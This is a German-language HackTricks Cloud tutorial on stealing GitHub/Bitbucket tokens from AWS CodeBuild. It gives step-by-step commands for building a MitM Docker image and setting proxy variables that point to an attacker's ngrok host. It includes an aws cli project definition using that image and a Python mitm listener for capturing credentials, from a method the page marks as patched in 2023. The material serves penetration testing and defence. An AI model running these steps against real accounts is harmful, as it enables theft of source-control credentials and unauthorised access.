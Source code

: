 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Github/Bitbucket Konfigurierte Tokens Wiederherstellen

Überprüfe zuerst, ob Quell-Anmeldeinformationen konfiguriert sind, die du leaken könntest:
```bash
aws codebuild list-source-credentials
```
### Über Docker-Image

Wenn Sie feststellen, dass die Authentifizierung beispielsweise zu Github im Konto eingerichtet ist, können Sie diesen **Zugriff** (**GH-Token oder OAuth-Token**) **exfiltrieren**, indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie ein **neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** setzt. Dies ermöglicht es Ihnen, den größten Teil des Datenverkehrs des Hosts, der in **`https_proxy`** und **`http_proxy`** angegeben ist, abzufangen und dem in **`SSL_CERT_FILE`** angegebenen SSL-Zertifikat zu vertrauen.

1. **Erstellen & Hochladen Ihres eigenen Docker MitM-Images**
* Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse und Ihr SSL-Zertifikat festzulegen und **das Docker-Image zu erstellen**.
* **SETZEN SIE `http_proxy` NICHT**, um Anfragen an den Metadata-Endpunkt nicht abzufangen.
* Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy auf Ihren Host zu setzen.
* Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...)
2. **Umgebung festlegen**
* Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
* Stellen Sie das Projekt so ein, dass es das **zuvor erstellte Docker-Image** verwendet.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy auf Ihrem Host**

* Wie im **Github-Repo** angegeben, könnten Sie etwas wie Folgendes verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **verwendete mitmproxy-Version war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.
{% endhint %}

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

*   Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 behoben (ich denke am Freitag). Ein Angreifer kann sie also nicht mehr ausnutzen :)**
{% endhint %}

Ein Angreifer mit **erhöhten Berechtigungen in einem CodeBuild könnte das konfigurierte Github/Bitbucket-Token leaken** oder, wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

* Ein Angreifer könnte die Umgebungsvariablen **http\_proxy** und **https\_proxy** zum CodeBuild-Projekt hinzufügen und auf seine Maschine verweisen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Dann die URL des Github-Repos ändern, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Dann das einfache Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) im Port ausführen, der von den Proxy-Variablen (http\_proxy und https\_proxy) angegeben wird
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Schließlich klicken Sie auf **Build the project**, die **credentials** werden im **Klartext** (base64) an den mitm-Port **gesendet**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nun kann ein Angreifer das Token von seiner Maschine aus verwenden, alle seine Privilegien auflisten und es einfacher (miss)brauchen, als den CodeBuild-Dienst direkt zu nutzen.
{% endhint %}

{% hint style="success" %}
Lernen & üben AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichen.

</details>
{% endhint %}
